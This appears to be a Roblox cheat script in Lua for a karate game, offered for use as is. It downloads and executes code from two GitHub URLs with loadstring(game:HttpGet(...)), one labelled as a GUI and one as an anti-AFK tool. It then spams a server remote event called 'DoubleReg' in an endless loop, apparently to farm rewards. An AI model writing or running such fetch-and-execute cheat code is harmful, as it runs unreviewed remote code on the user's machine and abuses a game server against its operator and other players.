 loadstring(game:HttpGet("https://raw.githubusercontent.com/vep1032/VepStuff/main/COBRA%20KAI%20KARATE%20%7C%20OPEN%20SOURCE%20GUI"))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/KazeOnTop/Rice-Anti-Afk/main/Wind", true))()
_G.Thedarklord = true
while wait() do
    if _G.Thedarklord == false then
        return
end
if _G.Thedarklord == true then
local Event = game:GetService("ReplicatedStorage").Remotes.DoubleReg
Event:FireServer()
local Event = game:GetService("ReplicatedStorage").Remotes.DoubleReg
Event:FireServer()
local Event = game:GetService("ReplicatedStorage").Remotes.DoubleReg
Event:FireServer()
local Event = game:GetService("ReplicatedStorage").Remotes.DoubleReg
Event:FireServer()
end
end
